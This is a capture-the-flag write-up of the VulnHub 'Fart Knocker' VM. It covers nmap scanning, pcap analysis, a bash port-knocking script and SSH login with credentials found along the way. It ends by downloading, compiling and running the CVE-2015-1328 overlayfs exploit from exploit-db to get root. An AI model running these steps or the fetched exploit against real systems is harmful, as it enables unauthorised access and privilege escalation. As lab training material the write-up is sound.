





- Description
- Enumeration
- Web Application Analysis
- Local System Enumeration
- Local Privilege Escalation
- Root Flag
- Conclusion
Description
A VulnHub VM challenge, based on packet analysis and port knocking.
Author Note: I got the word “Fart Knocker” from watching beavis and butthead back in the day. Otherwise you kids might not understand :)
Author: TopHotSec
Download: VulnHub
Enumeration
nmap -v -p 1-65535 -sV -O -sT 10.0.1.113Host Service Enumeration
| Port | Service | Version Detection |
|---|---|---|
|
|
HTTP |
Apache httpd 2.4.7 ((Ubuntu)) |
Web Application Analysis
Inspection of the web application revealed a pcap file link:

Pcap Analysis
Looking at the pcap file revealed the VM was likely using port knocking (bear in mind the VM’s network has changed).
What is Port Knocking ?
Port Knocking is the a *security by obscurity* technique, in order to expose a service port you must first connect to a set of ports in a specific order. More information about [port knocking on wikipedia](https://en.wikipedia.org/wiki/Port_knocking).

Quick bash loop script for the port knocking:
#!/bin/bash
HOST=$1
shift
for ARG in "[email protected]"
do
nmap -Pn --host_timeout 100 --max-retries 0 -p $ARG $HOST
doneSuccessful port knocking combo:
[root:~]# ./knock.sh 10.0.1.113 7000 8000 9000 7000 8000 && telnet 10.0.1.113 8888
Trying 10.0.1.113...
Connected to 10.0.1.113.
Escape character is '^]'.
/burgerworld/
Connection closed by foreign host.http://10.0.1.113/burgerworld/, disclosed another pcap file:

Investigation of the pcap file in Wireshark revealed more knocking again, following by a connection over port 8080.
Following the TCP stream for port 8080, discovered the following:

The hint: eins drei drei sieben is German for 1 3 3 7.
The previous port knocking patterned worked again for ports 1 3 3 7:
[root:~]# ./knock.sh 10.0.1.113 1 3 3 7; telnet 10.0.1.113 1337
Nmap done: 1 IP address (1 host up) scanned in 0.28 seconds
Trying 10.0.1.113...
Connected to 10.0.1.113.
Escape character is '^]'.
/iamcornholio/
Connection closed by foreign host.http://10.0.1.113/iamcornholio/, disclosed a Base64 encoded string:

The string was decoded, revealing another port knocking sequence:
[root:~]# echo "T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK" | base64 -d
Open up SSH: 8888 9999 7777 6666The previous port knocking technique was leveraged:
[root:~]# ./knock.sh 10.0.1.113 8888 9999 7777 6666; ssh 10.0.1.113
The authenticity of host '10.0.1.113 (10.0.1.113)' can't be established.
ECDSA key fingerprint is fe:16:33:a4:4d:7f:3d:db:b6:11:d4:b8:c1:32:b6:79.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.0.1.113' (ECDSA) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead #
# PASSWORD: nachosrule #
############################################
[email protected]'s password:Logging in using the disclosed credentials worked, but the session closed almost immediately and displayed the following message:
[email protected]'s password:
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)
* Documentation: https://help.ubuntu.com/
Last login: Tue Mar 3 01:02:49 2015 from 192.168.56.102
You are only logging in for a split second! What do you do!
Connection to 10.0.1.113 closed.The following command was executed, successfully spawning a shell on the target:
[root:~]# ./knock.sh 10.0.1.113 8888 9999 7777 6666; ssh [email protected] "/bin/sh"Local System Enumeration
The following hint was discovered:
$ cat nachos
Great job on getting this far.
Can you login as beavis or root ?Local Privilege Escalation
Enumeration of the system indicted it was likely vulnerable to CVE-2015-1328, a local privilege escalation using overlayfs mounts inside of user namespaces. Allowing a local user to exploit the flaw to gain administrative privileges on the system.
Exploit process (CVE-2015-1328):
$ wget https://www.exploit-db.com/download/37292
--2015-12-19 05:18:22-- https://www.exploit-db.com/download/37292
Resolving www.exploit-db.com (www.exploit-db.com)... 192.124.249.8
Connecting to www.exploit-db.com (www.exploit-db.com)|192.124.249.8|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5123 (5.0K) [application/txt]
Saving to: ‘37292’
0K ..... 100% 1.29G=0s
2015-12-19 05:18:25 (1.29 GB/s) - ‘37292’ saved [5123/5123]
$ ls
37292
nachos
$ mv 37292 37292.c
$ gcc 37292.c -o 37292
$ ./37292
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root),1001(butthead)Root Flag
# cd /root
# ls
SECRETZ
# cat SECRETZ
You have done a great job, if you can see this, please shoot me an email
and let me know that you have beat this box!
SECRET = "LIVE LONG AND PROSPER, REST IN PEACE MR. SPOCK"
[email protected]Conclusion
I enjoyed the VM, dispite not being a fan of Beavis and Butt-Head. Looking at the pcap files for port knocking patterns was a new experience for me.
Thanks for the VM :)